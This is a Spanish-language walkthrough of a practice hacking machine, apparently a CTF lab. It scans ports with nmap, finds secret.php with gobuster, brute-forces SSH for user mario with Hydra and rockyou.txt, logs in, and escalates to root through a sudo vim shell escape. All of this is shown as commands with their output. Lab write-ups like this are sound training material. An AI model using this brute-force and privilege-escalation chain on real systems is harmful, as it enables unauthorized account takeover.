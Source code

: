 # Herramientas
- Nmap
- Gobuster
- SecLists
- Hydra
# Procedimiento
Escaneamos con nmap y podemos ver que los puertos 22 y 80 estám abiertos. 
```bash
nmap -p- 172.22.0.2                                                         
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-14 11:18 -04  
Nmap scan report for 172.22.0.2  
Host is up (0.0000020s latency).  
Not shown: 65533 closed tcp ports (reset)  
PORT   STATE SERVICE  
22/tcp open  ssh  
80/tcp open  http  
MAC Address: 2A:4B:7A:5E:32:49 (Unknown)  
  
Nmap done: 1 IP address (1 host up) scanned in 0.57 seconds
```

Ingresamos a la página y podemos ver que está el archivo default de Apache.
![[Pasted image 20250714112015.png]]
Utilizamos gobuster para hacer un escaneo de directorios y podemos ver que hay un secret.php. 
```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://172.22.0.2/ -x .php,.py,.txt,.html  
===============================================================  
Gobuster v3.6  
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)  
===============================================================  
[+] Url:                     http://172.22.0.2/  
[+] Method:                  GET  
[+] Threads:                 10  
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt  
[+] Negative Status codes:   404  
[+] User Agent:              gobuster/3.6  
[+] Extensions:              php,py,txt,html  
[+] Timeout:                 10s  
===============================================================  
Starting gobuster in directory enumeration mode  
===============================================================  
/.php                 (Status: 403) [Size: 275]  
/.html                (Status: 403) [Size: 275]  
/index.html           (Status: 200) [Size: 10701]  
/secret.php           (Status: 200) [Size: 927]  
/.php                 (Status: 403) [Size: 275]  
/.html                (Status: 403) [Size: 275]  
/server-status        (Status: 403) [Size: 275]  
Progress: 1038215 / 1038220 (100.00%)  
===============================================================  
Finished  
===============================================================
```

Lo abrimos y nos encontramos esto:
![[Pasted image 20250714112332.png]]

Hasta el momento solamente sabemos que puede haber un usuario llamado mario, por lo que procederemos a hacer fuerza bruta con hydra. Los parámetros ocupados son:
- -l: se debe especificar el usuario a probar
- -P: se especifica un diccionario de palabras

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.22.0.2                                          
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organ  
izations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).  
  
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-14 11:26:23  
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: u  
se -t 4  
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous sessio  
n found, to prevent overwriting, ./hydra.restore  
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per t  
ask  
[DATA] attacking ssh://172.22.0.2:22/  
[22][ssh] host: 172.22.0.2   login: mario   password: chocolate  
1 of 1 target successfully completed, 1 valid password found  
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-14 11:26:41
```

Con esto vemos que se puede acceder con el usuario mario y contraseña chocolate.
```bash
ssh mario@172.22.0.2                 
The authenticity of host '172.22.0.2 (172.22.0.2)' can't be established.  
ED25519 key fingerprint is SHA256:z6uc1wEgwh6GGiDrEIM8ABQT1LGC4CfYAYnV4GXRUVE.  
This key is not known by any other names.  
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes  
Warning: Permanently added '172.22.0.2' (ED25519) to the list of known hosts.  
mario@172.22.0.2's password:    
Linux 38462ed4ac9c 6.12.33+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.33-1kali1 (2025-06-25) x86_64  
  
The programs included with the Debian GNU/Linux system are free software;  
the exact distribution terms for each program are described in the  
individual files in /usr/share/doc/*/copyright.  
  
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent  
permitted by applicable law.  
Last login: Wed Mar 20 09:54:46 2024 from 192.168.0.21  
mario@38462ed4ac9c:~$
```

Procedemos a ver qué permisos tiene el usuario de mario:
```bash
sudo -l
Matching Defaults entries for mario on 38462ed4ac9c:  
   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,  
   use_pty  
  
User mario may run the following commands on 38462ed4ac9c:  
   (ALL) /usr/bin/vim
```

Procedemos a ocupar `sudo -u root /usr/bin/vim`, poner ":" y colocar `!/bin/bash`

```
root@38462ed4ac9c:/home/mario# whoami  
root
```

Y con esto, hemos terminado de hackear la máquina :)